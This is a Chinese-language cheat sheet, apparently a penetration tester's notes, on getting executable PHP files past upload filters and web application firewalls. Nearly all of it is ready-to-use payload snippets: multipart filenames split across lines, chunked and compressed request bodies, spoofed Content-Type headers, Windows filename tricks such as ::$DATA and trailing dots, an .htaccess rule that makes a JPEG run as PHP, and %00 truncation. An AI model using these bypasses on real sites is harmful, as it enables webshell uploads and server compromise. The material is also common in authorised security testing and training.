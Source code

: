 # fileupload bypass waf

---


名字换行绕过waf（找到真实IP，通过真实IP请求）

```
Content-Disposition: form-data; name="Filedata"; filename="2.p
h
p"
```

chunk绕过waf

```
Transfer-Encoding:chunked
16进制：1-9ABCDEFG
然后将上传内容变成下述的分块传输，从----------websdafasgasjfga-----------开始
A:
xxxxxxxxxx 
8:
xxxxxxxx
```

修改编码方式：（找到真实IP，通过真实IP请求，在请求包中加入以下即可）

```
Accept-Encoding: deflate   或者gzip   # 设置在请求头，对服务端声明可以接受的编码方式
Content-Encoding: deflate  或者gzip   # 设置在响应头，对客户端声明会用哪种编码方式
```






客户端js验证：可以先正常图片上传，然后通过burp抓包改包成可解析的代码如：php即可


服务端验证：

MIME验证绕过

```
上传php但是修改成可允许上传的图片的MIME即可绕过
Content-Type:image/jpeg                # jpg，可以换成png，gif等
Content-Type:image/php                 # 有些代码逻辑是提取该/后面的php为文件后缀
Content-Type:application/octet-stream  # php，可以换成xml、json、pdf等
Content-Type:text/html                 # html，可以换成xml等
```

黑名单绕过

```
适用于黑名单绕过且目标是windows系统
xx.php空格     # 点号后面的空格会自动删除,访问xx.php
xx.PHP        # windows，大小写不敏感     ，访问xx.PHP
xx.php.       # windows文件命名，点号后面没有东西也会删除点，访问xx.php
xx.php..      # 同理，但是过滤一个末尾的点     ，访问xx.php
xx.php::$DATA # windows系统中将::$DATA当成文件流处理，会把::$DATA删除， 访问xx.php
---
过滤某些字符串：双写绕过，如过滤php变成空格，双写php进行嵌套，phphpp
---
.htaccess绕过
    如果没有禁止该文件上传，可以适用，仅限apache，和黑名单没有限制该文件上传
    让同目录下的2.jpg当php解析
    <FilesMatch "2.jpg">
    SetHandler application/x-httpd-php
    </FilesMatch>
```

白名单绕过

```
%00截断
限制：php版本小于5.3.4且php.ini的magic_quotes_gpc为OFF状态

get请求：
    xx.php%00.jpg  # 代码检测后缀是jpg，但是php读到%00进行了截断，结束读取
    xx.php%00/2.jpg  # 同理，在文件路径中也可以

post请求：（需要进行url解码）
    xx.php%00.jpg
    对%00右键/Convert selection/URL/URL-decode

访问xx.php

---
图片马+文件包含 进行白名单绕过
```



